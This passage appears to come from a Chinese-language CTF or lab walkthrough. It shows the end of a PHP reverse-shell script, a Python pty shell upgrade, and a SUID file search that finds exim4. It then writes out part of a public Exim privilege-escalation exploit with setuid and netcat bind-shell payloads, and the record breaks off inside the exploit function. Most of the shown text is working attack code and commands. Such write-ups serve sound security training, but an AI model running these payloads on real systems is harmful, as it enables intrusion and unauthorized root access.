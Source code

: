 ```php
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

![image-20211006233037731](/assets/img/image-20211006233037731.png)

拿到回弹shell，升级交互shell

```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## 0x03 提权

尝试sudo -l需要密码，再尝试寻找suid文件

```
find / -perm -u=s 2>/dev/null
```

![image-20211006233721939](/assets/img/image-20211006233721939.png)

发现exim4可以尝试利用

```
exim4 --version
```

![image-20211006233944474](/assets/img/image-20211006233944474.png)

```
 searchsploit -w exim 4.8
```

![image-20211006234423610](/assets/img/image-20211006234423610.png)

使用https://www.exploit-db.com/exploits/46996进行提权，在目标机保存poc并运行

```]

tee pri.sh <<-'EOF'
METHOD="setuid" # default method
PAYLOAD_SETUID='${run{\x2fbin\x2fsh\t-c\t\x22chown\troot\t\x2ftmp\x2fpwned\x3bchmod\t4755\t\x2ftmp\x2fpwned\x22}}@localhost'
PAYLOAD_NETCAT='${run{\x2fbin\x2fsh\t-c\t\x22nc\t-lp\t31337\t-e\t\x2fbin\x2fsh\x22}}@localhost'

# usage instructions
function usage()
{
	echo "$0 [-m METHOD]"
	exit 1
}

function exploit()
{
	exec 3<>/dev/tcp/localhost/25

	read -u 3 && echo $REPLY
	echo "helo localhost" >&3
	read -u 3 && echo $REPLY
```